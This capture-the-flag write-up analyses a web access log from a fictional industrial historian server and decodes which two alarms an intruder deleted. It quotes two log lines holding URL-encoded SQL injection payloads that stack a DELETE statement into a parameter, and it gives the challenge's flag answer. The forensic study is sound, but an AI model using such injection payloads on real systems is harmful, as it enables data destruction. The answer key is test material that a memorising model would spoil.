 # The Historian Channel - 3
Category: Jubilife

## Description
The downloaded configuration file contained database schemas as well as information regarding the various alarms in Jubilife’s ICS network. It also contained hardcoded passwords, which could explain how the unauthorized user was eventually able to login successfully.

There is no evidence that this configuration file has been changed in any way, which means the user must have found a different way to modify the alarm logging. However, the configuration file was probably used as part of their information gathering process.

Looking deeper into the suspicious user’s activities, what are the names of the two alarms they deleted from the database?

*Flag format: alarm names in ASCII, comma separated (order does not matter). Example: if alarms with names ABCD and EFGH were deleted from database, accepted flags would be **ABCD,EFGH** or **EFGH,ABCD**.*

Attachments: [access.log](attachments/access.log)

## Write-up
- Based on the information obtained in [The Historian Channel - 1](../jubilife-the-historian-channel-1/README.md), the last successful login occurred at `04/May/2023:12:22:50`.
- Therefore, it is likely that the modification to the alarm logging occurred after that timestamp.
- During our analysis, we discovered several `GET` requests made to `/alarms.php` at different time intervals. These requests included query values that resembled `SQL DELETE` queries.
- Among all the queries, only two of them resulted in a status code of `200`, while the rest returned a status code of `500`.
- The requests are as follows:
```
192.168.4.146 - - [04/May/2023:13:17:50 -0500] "GET /alarms.php/?deviceID=1%27%3BDELETE%20FROM%20alarms%20WHERE%20deviceID%20=%20CAST(%275%27%20as%20INTEGER)%20AND%20name%20=%20CAST(X%2742313237%27%20as%20TEXT)%3B--&Submit=Submit HTTP/1.1" 200 1299 "http://jubilifehistorian/alarms.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.157 Safari/537.36"
192.168.4.146 - - [04/May/2023:13:18:05 -0500] "GET /alarms.php/?deviceID=1%27%3BDELETE%20FROM%20alarms%20WHERE%20deviceID%20=%20CAST(%275%27%20as%20INTEGER)%20AND%20name%20=%20CAST(X%2743393639%27%20as%20TEXT)%3B--&Submit=Submit HTTP/1.1" 200 1295 "http://jubilifehistorian/alarms.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.157 Safari/537.36"
```
- The first SQL query indicates the name to be the expression `CAST(X'42313237' as TEXT)` which translates `B127`.
- The second SQL query indicates the name to be expression`CAST(X'43393639' as TEXT)` which translates `C969`.

Flag: `B127,C969`
